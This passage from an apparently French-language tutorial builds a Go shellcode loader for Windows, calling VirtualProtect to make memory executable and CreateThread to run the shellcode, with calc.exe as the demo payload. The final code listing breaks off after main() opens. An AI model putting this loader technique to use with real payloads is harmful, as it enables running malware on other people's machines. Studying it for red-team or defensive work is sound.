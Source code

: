 > [https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)

On va maintenant changer les droits de la zone mémoire pour la rendre exécutable.

> [https://pkg.go.dev/golang.org/x/sys/windows#VirtualProtect](https://pkg.go.dev/golang.org/x/sys/windows#VirtualProtect)

```go
var oldProtect uint32  
err = windows.VirtualProtect(  
	shellcodeExec, //[in] LPVOID lpAddress,  
	uintptr(len(shellcode)), //[in] SIZE_T dwSize,  
	windows.PAGE_EXECUTE_READ, //[in] DWORD flNewProtect,  
	&oldProtect, //[out] PDWORD lpflOldProtect  
)  
if err != nil {  
	log.Fatal("Error while VirtualProtect:", err)  
}  
fmt.Scanln()
```
Cette fonction fonctionne un peu comme VirtualAlloc. On lui donne en paramètre l'adresse de notre shellcode, la taille, les nouveaux droit et oldProtect va contenir les ansiens droit. Après avoir modifié la zone mémoire, on voit que on est plus en Read Write, mais en Execute Read.
![](img4.png)
### CreateThread

> [https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)

On va finir par faire un nouveau Thread. Cette fonction n’existe pas dans le package Windows donc on va le faire à la main. 

```go
kernel32 = windows.NewLazySystemDLL("kernel32.dll")  
createThread := kernel32.NewProc("CreateThread")
hThread,_,_ := createThread.Call(
		0,                                 //lpThreadAttributes
		0,                                 //dwStackSize
		shellcodeExec,                     //lpStartAddress
		uintptr(0),                        //lpParameter
		0,                                 //dwCreationFlag
		0)                                 //lpThreadId
```
Ce qui est surtout important, c'est le `lpStartAddress` qui va contenir l'addresse de notre shellcode. Normalement, à ce stade on devrait avoir `calc.exe` qui s'est lancé.
## Result

```go
package main  
  
import (  
	"encoding/hex"  
	"golang.org/x/sys/windows"  
	"log"  
	"unsafe"  
)  
  
var (  
	kernel32 = windows.NewLazySystemDLL("kernel32.dll")  
	createThread = kernel32.NewProc("CreateThread")  
)  
  
func main() {  
```